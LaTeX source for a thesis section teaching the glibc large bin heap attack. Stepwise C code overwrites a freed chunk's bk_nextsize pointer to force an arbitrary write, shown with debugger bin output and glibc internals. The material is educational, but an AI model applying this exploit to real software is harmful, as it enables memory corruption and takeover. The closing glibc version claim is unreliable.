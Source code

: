 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\section{\lb{} Attack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk.
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the most significant chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, a free chunk adds to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
 Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
 Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}

The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize}. As we mentioned before, Just \lb{} chunks use this pointer, they point to the next biggest chunk in the link list.
\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
The last step is to allocate a bigger chunk, so, \lstinline{p2} move to a larger chunk. When \lstinline{p2} move to large chunk, the heap manager write the address of \lstinline{p2} inside \lstinline{p1->bk_nextsize->fd_nextsize} as the code of \libc{} show:
\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
\end{lstlisting}
This attack works on \libc{} below 3.0.
\chapter{Conclusion}

% 
% 
\end{document}
